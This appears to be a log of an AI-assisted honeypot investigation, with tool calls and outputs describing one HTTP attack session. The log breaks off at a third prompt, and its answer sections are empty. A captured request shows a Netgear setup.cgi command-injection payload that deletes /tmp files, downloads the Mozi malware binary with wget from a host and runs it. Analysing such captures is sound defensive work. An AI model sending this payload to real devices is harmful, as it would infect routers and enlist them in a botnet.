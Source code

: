 **Function called:** `get_attack_attrs`

| Argument | Value |
| --- | --- |
| `attrs` | `['sessions']` |

| Output | Value |
| --- | --- |
| `sessions` | `['Session CiSiAW3PjDiDoxtgnj HTTP 178.72.69.244:17527 -> 172.31.5.68:8080 HTTP Requests: 1, Duration: 0.23s']` |


<details><summary>
<h3>Answer</h3>
</summary></details>

---


## Prompt: Analyze the HTTP sessions in the context of the attack. Include the URIs, HTTP headers, and any other relevant info.

**Run ID:** `run_VTkJD867T1ni0hppZRXplPcz`

### Funciton Calls
**Step ID:** `step_yUx5areEOchLw51H6VDZi4hi`

**Function called:** `get_session_attrs`

| Argument | Value |
| --- | --- |
| `session_id` | `CiSiAW3PjDiDoxtgnj` |
| `attrs` | `['http_requests']` |

| Output | Value |
| --- | --- |
| `http_requests` | `{'GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://192.168.1.1:8088/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0\n'}` |


<details><summary>
<h3>Answer</h3>
</summary></details>

---


## Prompt: Summarize what is known about the location of the IP addresses involved in the attack.

**Run ID:** `run_B6QKOP9U8UaL3UB7Lam2n4Yk`

### Funciton Calls
**Step ID:** `step_31LyWn0xKgJlSEslTMYyC6oI`
